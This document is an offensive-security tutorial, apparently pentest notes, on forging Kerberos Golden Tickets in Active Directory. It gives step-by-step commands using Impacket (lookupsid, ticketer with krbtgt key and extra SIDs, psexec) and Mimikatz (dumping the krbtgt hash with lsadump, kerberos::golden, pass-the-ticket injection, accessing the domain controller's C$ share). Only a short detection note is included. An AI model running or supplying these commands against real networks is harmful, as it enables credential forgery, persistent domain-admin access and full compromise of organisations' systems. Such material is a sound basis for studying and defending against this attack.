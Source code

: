 A **Golden Ticket** attack allows an attacker to forge Kerberos **Ticket Granting Tickets (TGTs)** by using the **krbtgt account hash** of a domain.  
With this forged TGT, the attacker can impersonate **any user (including Domain Admins)** and obtain unrestricted access to domain resources.

---

## Requirements

- **krbtgt account hash** (NTLM/RC4 or AES key) and the **domain SID**.
- A tool to forge and inject Kerberos tickets (e.g., **Mimikatz**, **Impacket**).
- Access to a system inside the domain or a system that can use Kerberos authentication.

---


## Using Impacket (Linux/Kali)

### Step 1: Extract the necessary information 

First, you need to extract the Domain SID:

```bash
impacket-lookupsid <domain_name>/<user_name>:'Password123!'@<complete_domain_controller_name>
```
The output will list SIDs for users and groups. The **Domain SID** is the common prefix (e.g. `S-1-5-21-3754860944-83624914-1883974761`). The last number in each SID is the **RID** (Relative ID) of that user or group.

- Example: `...-500` = Administrator, `...-512` = Domain Admins.

### Step 2: Generate a Golden Ticket
Once you have the Domain SID, you can create a forged Kerberos ticket with `impacket-ticketer`. 

- `-user-id <RID>` → the RID of the user you want to impersonate. (e.g. `500` for Domain Admins)
- `-groups <RID>` → RIDs of groups you want to include (e.g. `512` for Domain Admins).
- `-extra-sid <SID>` → full SIDs of additional groups if you want to simulate Enterprise Admins or other privileges.
- `-aesKey` or `-nthash`. The AES key is preferred in modern Kerberos.
- `-extra-sid ...-512` → injects Parent Domain Admins.
- `S-1-5-9` → Enterprise Domain Controllers SID.
- `user` -> The user you want to impersonate.

```bash
impacket-ticketer -domain child.warfare.corp \
  -aesKey <krbtgt_AES_key> \
  -domain-sid S-1-5-21-3754860944-83624914-1883974761 \
  -user-id 500 -groups 512 \
  -extra-sid S-1-5-21-3375883379-808943238-3239386119-512,S-1-5-9 \
  Administrator
```

This will generate a Kerberos ticket cache (`<username>.ccache`) for the specified user.

### Step 3: Export the Ticket

Set the Kerberos ticket as the active credential:

```bash
export KRB5CCNAME=/path/to/Administrator.ccache
```

### Step 4: Use the Ticket

Leverage the Kerberos ticket to authenticate to services (no password required). For example:
```bash
impacket-psexec -k -no-pass <domain>/<username>@<target_ip>
```
- `-k` tells Impacket to use the Kerberos ticket stored in the `KRB5CCNAME` environment variable.


---


## Using Mimikatz (.kirbi ticket injection)

### Step 1: Dump the krbtgt Hash

On a compromised Domain Controller or system with domain admin privileges:
```bash
mimikatz.exe
lsadump::lsa /inject /name:krbtgt
```

- Extract the **RC4/NTLM hash** of the krbtgt account.
- Note the **Domain SID**.

### Step 2: Create the Golden Ticket
```bash
kerberos::golden /domain:<domain_name> /sid:<domain_SID> /rc4:<krbtgt_NTLM_hash> /user:<username> /ticket:golden.kirbi
```

- The `/user:` can be any user (e.g., `Administrator`), even if it does not exist.

### Step 3: Transfer and Inject the Ticket

- Transfer the generated `golden.kirbi` file to the attack machine.
- Inject the ticket:
```bash
mimikatz.exe
kerberos::ptt golden.kirbi
exit
```

### Step 4: Use the Forged Ticket

- With the ticket loaded in memory, access privileged resources:
```bash
dir \\<domain_controller>\c$
```
- You now have domain-wide access as the chosen user.




---

## Key Considerations

- **Persistence:**  
    Golden Tickets remain valid until the krbtgt password is reset **twice**.
    
- **Detection:**  
    Monitoring for unusual TGT lifetimes, anomalous logins, or unexpected Kerberos activity can help detect forged tickets.
    
- **Privilege:**  
    Full domain compromise is usually required to obtain the krbtgt hash (e.g., from a Domain Controller).
